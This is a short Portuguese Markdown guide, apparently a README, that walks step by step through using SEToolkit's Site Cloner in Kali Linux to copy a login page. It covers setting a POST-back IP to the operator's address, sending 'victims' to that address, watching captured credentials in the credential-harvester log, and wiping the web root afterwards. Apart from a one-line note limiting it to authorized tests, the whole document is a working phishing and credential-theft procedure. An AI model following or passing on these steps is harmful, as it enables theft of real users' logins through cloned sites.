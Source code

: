 # 📖 Site Cloner com SEToolkit no Kali Linux

---

## ⚙️ Requisitos

- [ ] **Kali Linux** (já vem com SEToolkit instalado)  
- [ ] Acesso **root** ou sudo  
- [ ] Rede configurada (LAN ou túnel via ngrok)

---

## 🚀 Passo a Passo

- [ ] **Abra o terminal e vire root**  
    sudo su
- [ ] **Inicie o SEToolkit**  
    setoolkit
- [ ] **Selecione os módulos**  
    1) Social-Engineering Attacks  
    2) Website Attack Vectors  
    1) Web-Based Attack Vectors  
    2) Site Cloner
- [ ] **Configure o “POST Back”**  
    Enter the IP address for the POST Back: `<SEU_IP>`
- [ ] **Cole a URL alvo**  
    Enter the url to clone: `http://exemplo.com/login`
- [ ] **Aguarde o clone**  
    Arquivos clonados → `/var/www/html/`  
    Apache iniciado automaticamente
- [ ] **Direcione as vítimas**  
    `http://<SEU_IP>/`
- [ ] **Monitore credenciais em tempo real**  
    tail -f /root/.setoolkit/logs/credentialharvester.log
- [ ] **Finalização & limpeza**  
    systemctl stop apache2  
    rm -rf /var/www/html/*

---

## 📝 Observações

- ⚖️ **Uso legal**: só em testes autorizados!  
- 🔒 **HTTPS** gerará aviso de certificado autoassinado.  
- 🔧 Personalize o clone editando `/var/www/html/` conforme necessidade.  
